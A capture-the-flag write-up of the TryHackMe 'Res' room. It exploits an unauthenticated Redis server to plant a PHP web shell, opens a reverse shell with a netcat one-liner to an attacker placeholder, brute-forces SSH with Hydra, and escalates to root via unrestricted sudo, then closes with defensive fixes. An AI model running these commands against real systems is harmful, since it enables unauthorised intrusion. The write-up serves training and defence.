# Res Writeup

**Machine Name:** Res  
**Platform:** TryHackMe  
**Difficulty:** Easy

---



## Introduction

Res is an easy-rated TryHackMe room built around one exposed service: a Redis database sitting on the network with no password at all. The room's own description invites you to "hack into a vulnerable database server with an in-memory data-structure," and that undersells it a little, because one open port turns into a web shell, a foothold as www-data, a cracked SSH password, and root, all from the same misconfiguration.

## Phase 1: Enumeration

A full TCP port scan against the target returned three open ports.

> nmap -p- -sV -sC \<TARGET_IP\>

```
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
6379/tcp open redis Redis key-value store 6.0.7
```

Port 80 was just the stock Apache2 "It works!" placeholder, nothing hidden in the page and nothing worth digging into further.



Port 6379 was the one worth a closer look: Redis, an in-memory database normally used for caching and message queues, sitting wide open on a public-facing port.

## Phase 2: A Database With No Lock

Connecting to Redis didn't ask for a password, because there wasn't one to give.

> redis-cli -h \<TARGET_IP\> -p 6379



A couple of guesses at commands failed since `show database` and `ls` aren't real Redis syntax, but `INFO` worked right away and dumped the server's internal details, version included.



Further down that same output were the executable and config file paths, and they gave away something the box hadn't even asked me to authenticate for: a real system username.



> **Security Issue #1:** Redis Exposed With No Authentication. An in-memory database like Redis is meant to sit behind an application layer, not face the internet directly. With no `requirepass` set, anyone who can reach port 6379 gets full read and write access to the database, including its own configuration, before a single login prompt is involved.

## Phase 3: From Database to Web Shell

Redis has a well-known quirk: it can be told to write its data to disk, and both the destination folder and the filename are configurable. Point that at a web root and give it a filename ending in `.php`, and Redis turns into a file-write primitive.



`save` flushes Redis's in-memory data to disk at the path just configured, which meant it dropped a PHP web shell straight into the site's web root. Hitting it in a browser confirmed code execution:

> \<TARGET_IP\>/connection.php?cmd=whoami



The response was buried in Redis's usual binary protocol noise, but `www-data` was sitting right there in it. Command execution, and the only thing it cost was a database connection.

> **Security Issue #2:** Arbitrary File Write Leads to RCE. Because Redis had no authentication and its persistence settings could be changed freely, an attacker could redirect its save file straight into the web server's document root and plant a working web shell. There's no exploit code or CVE involved here, just Redis doing exactly what it was configured to do.

## Phase 4: Reverse Shell and the First Flag

The `cmd` parameter worked, but it wasn't interactive. I generated a reverse shell one-liner (a shell that connects back to my machine instead of waiting for me to connect to it) and triggered it through the same web shell.

> nc \<ATTACKER_IP\> 1114 -e /bin/bash





With a listener already running, the callback landed a few seconds later, a proper shell as www-data.

> nc -lvnp 1114



### First flag

From there, `/home/vianka/user.txt` was readable right away.



`cat user.txt` printed the first flag: `<REDACTED>`

## Phase 5: Cracking SSH Credentials

Reading the flag was easy. Escalating from www-data was not, so the next step was getting a proper shell as vianka instead of just borrowing read access to her files. I pointed Hydra at SSH with the rockyou.txt wordlist.

> hydra -l vianka -P /usr/share/wordlists/rockyou.txt \<TARGET_IP\> ssh



It turned up a valid password within a few minutes.



Hydra found: login `vianka`, password `<REDACTED>`. Logging in over SSH with it worked without any friction.



> **Security Issue #3:** Weak, Brute-Forceable User Password. Vianka's SSH password fell to a standard wordlist in a short amount of time, and nothing on the server rate-limited or locked out the flood of failed attempts along the way. A password that a wordlist can guess is functionally the same as no password at all.

## Phase 6: Privilege Escalation

With a real shell as vianka, the next check was sudo rights.

> sudo -l



The output showed vianka could run any command as any user, with no restrictions attached.

That's root, one command away.

> sudo /bin/bash





> **Security Issue #4:** Unrestricted Sudo Privileges. A standard user account had full, unscoped sudo rights. The moment her password was cracked, there was no privilege boundary left standing between her account and root.

### Flag 2

`whoami` confirmed it, and `/root/root.txt` closed the room out: `<REDACTED>`



## Blue Team Perspective

Working back through the chain, here's where a defensive team could have stopped this at each stage.

### 1. Redis Exposed Without Authentication

A database reachable from outside the network with no password required is an easy finding for any port scan or asset inventory. Fix: set `requirepass`, bind Redis to localhost or an internal network only, and keep port 6379 off any public-facing firewall rule.

### 2. Arbitrary File Write Enabling RCE

Redis being free to write its persistence file anywhere on disk, including a live web root, is what turned a database misconfiguration into full code execution. Fix: run Redis under a low-privilege account with no write access to the web root, and disable the `CONFIG` command in production through `rename-command` or ACLs.

### 3. Weak Password Allowed Over SSH

A password that falls to rockyou.txt shouldn't survive one login attempt, let alone the thousands Hydra threw at it without triggering a lockout. Fix: enforce a real password policy, add rate-limiting or fail2ban on SSH, and lean on key-based authentication instead of passwords where possible.

### 4. Overly Permissive Sudo Configuration

Granting `(ALL : ALL) ALL` to a standard user erases any privilege boundary the moment that account is compromised. Fix: scope sudo rights to the specific commands a user actually needs, and flag any blanket `ALL:ALL` grant during routine access reviews.



This write-up is part of my ongoing series documenting CTF challenges as I build my portfolio in cybersecurity. I approach each challenge from both offensive and defensive angles, because understanding both sides is what makes a well-rounded security professional.

If you're also working toward a SOC or security engineering role, feel free to connect. I'm always happy to talk shop.
